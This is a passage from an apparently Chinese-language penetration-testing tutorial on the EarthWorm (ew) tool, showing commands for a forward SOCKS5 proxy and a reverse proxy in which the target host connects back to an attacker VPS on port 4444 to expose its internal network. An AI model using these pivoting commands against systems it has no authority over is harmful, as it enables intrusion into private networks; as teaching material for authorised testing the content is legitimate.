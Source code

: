 #### a、正向连接

正向连接需要目标主机有一个公网 IP，或者说攻击主机能够直接访问到目标主机。

命令也很简单

```
ew -s ssocksd -l 1080
```

```
 -s 设置状态模式
 -l 设置监听端口
```

```
> .\ew_for_Win.exe -s ssocksd -l 1080
ssocksd 0.0.0.0:1080 <--[10000 usec]--> socks server
```

然后使用 SocksCap、Proxifier、ProxyChains 等工具配置上目标主机的 IP 和监听端口即可，socks 要选择 socks5

#### b、反向连接

反向连接适合于目标没有公网 IP 的情况，这时就需要一台公网 vps 了，这里就直接以内网地址作为演示了。

在公网 VPS 上执行以下命令：

```
ew -s rcsocks -l 1080 -e 4444
```

```
 -e 设置反弹主机端口
```

```
> ./ew_for_linux64 -s rcsocks -l 1080 -e 4444
```

这条命令表示将 1080 端口接收到的数据转发到 4444 端口上。

在目标主机上执行以下命令：

```
ew -s rssocks -d vps_ip -e 4444
```

```
-d 设置反弹主机 IP
```

```
> .\ew_for_Win.exe -s rssocks -d 172.16.214.52 -e 4444
```

这条命令表示在本地开启 socks 5 服务，并反弹到 vps 的 4444 端口，如果代理建立成功，在 VPS 端就会看到 `rssocks cmd_socket OK!` 的提示。

最后，代理 vps 的 1080 端口就可以访问到目标主机的内网了。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-09_10-24-45.png)

#### c、二级网络环境（一）
